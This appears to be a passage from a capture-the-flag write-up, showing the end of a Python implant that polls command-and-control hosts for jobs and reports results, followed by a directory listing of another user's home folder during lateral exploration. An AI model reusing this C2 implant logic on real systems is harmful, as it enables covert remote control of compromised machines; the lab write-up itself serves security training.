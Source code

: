 ```python
                self.send_c2_message('job-result', job)
            else:
                job['success'] = False
                job['result'] = 'No command'
                self.send_c2_message('job-result', job)
        except ConnectionError:
            print('Could not get job')
        except TypeError:
            print('Job formatting error')
        except json.JSONDecodeError:
            job = {'success': False, 'result': 'JSON error'}
            self.send_c2_message('job-result', job)
            print('JSON error')    
        except binascii.Error:
            job = {'success': False, 'result': 'Encoding error'}
            self.send_c2_message('job-result', job)
            print('Encoding error')
        except Exception as e:
            print(f'Job execution error ({e})')

if __name__ == "__main__":
    log_dir = Path('/home/ada/.implant')
    hosts_file = Path('/home/ada/.implant/hosts')

    if hosts_file.exists():
        hosts = hosts_file.read_text().split('\n')

        commanders = [Commander(host, log_dir) for host in hosts if host != '']

        for commander in commanders:
            commander.send_heartbeat()
            time.sleep(1)
            commander.get_job()
            commander.save_log()

```

In fi’s home directory 

```bash
ada@forgottenimplant:/home/fi$ ls -la

total 148
drwxr-xr-x 6 fi   fi    4096 Apr 29 15:09 .
drwxr-xr-x 4 root root  4096 Jul 12  2022 ..
lrwxrwxrwx 1 fi   fi       9 Jul 10  2022 .bash_history -> /dev/null
-rw-r--r-- 1 fi   fi     220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 fi   fi    3771 Feb 25  2020 .bashrc
drwx------ 3 fi   fi    4096 Jul 12  2022 .cache
drwxrwxr-x 4 fi   fi    4096 Apr 14 15:50 .config
drwxrwxr-x 3 fi   fi    4096 Jul 10  2022 .local
-rw-r--r-- 1 fi   fi     807 Feb 25  2020 .profile
lrwxrwxrwx 1 fi   fi       9 Jul 10  2022 .python_history -> /dev/null
-rwxrwxr-x 1 fi   fi     270 Apr 14 15:52 sanitize.sh
-rw-rw-r-- 1 fi   fi      66 Jul 12  2022 .selected_editor
-rw-r--r-- 1 root root 94981 Aug  2 22:17 sniffer.log
-rwxrwxr-x 1 fi   fi    2106 Apr 29 14:33 sniffer.py
drwx------ 2 fi   fi    4096 Jul 10  2022 .ssh
-rw-r--r-- 1 fi   fi       0 Jul 10  2022 .sudo_as_admin_successful
```

